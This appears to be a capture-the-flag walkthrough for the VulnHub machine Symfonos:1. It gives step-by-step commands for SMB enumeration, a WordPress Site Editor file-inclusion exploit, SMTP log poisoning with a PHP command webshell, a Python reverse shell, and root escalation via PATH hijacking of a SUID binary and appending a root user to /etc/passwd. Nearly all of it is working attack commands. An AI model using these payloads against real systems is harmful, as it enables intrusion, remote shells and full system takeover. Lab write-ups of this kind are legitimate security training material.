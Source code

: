 



# Symfonos:1 Walkthrough 

**VulnHub Link:** [Symfonos:1](https://www.vulnhub.com/entry/symfonos-1,322/)
**Difficulty:** Easy
**Release Date:** 29 Jun 2019

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.179
```

sudo echo "192.168.100.179    symfonos.local" > /etc/hosts

## 2.Enumeration

```bash
enum4linux 192.168.100.179
```
helios user found

```bash
smbmap -H 192.168.100.179
smbclient //192.168.100.179/anonymous -N
get attention.txt
```

we got 3 password
```
smbclient //192.168.100.179/helios
```
qwerty verified

/h3l105 found

## 3.Web Enumeration

```bash
dirb http://192.168.100.179
```

```bash
wpscan --url 'http://symfonos.local/h3l105/' -e ap,u
searchsploit site editor
searchsploit -m php/webapps/44340.txt
```
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/helios

```bash
nc -nv 192.168.100.179
MAIL FROM:<hacker>
RCPT TO:helios
data
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo"</pre>";die;}?>
.
```

then ---> http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/helios&cmd=id

we found out commands work

http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/helios&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.179",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

before above command ---> rlwrap nc -nvlp 1234

we got helios shell

## 4.Privilege Escalation

```bash
find / -perm /4000 2>/dev/null
cd /opt
strings statuscheck
echo '#!/bin/sh' > /tmp/curl
echo "chmod 777 /etc/passwd" >> /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
./statuscheck
```

now we can write to passwd file 

in our machine 
```bash
openssl passwd test
```
we obtain hash and design it as --->
```bash
echo 'root2:<hash>:0:0:root:/root:/bin/bash' >> /etc/passwd
su root2 (password : test)
```

### and BOOOM . WE ARE ROOT..!
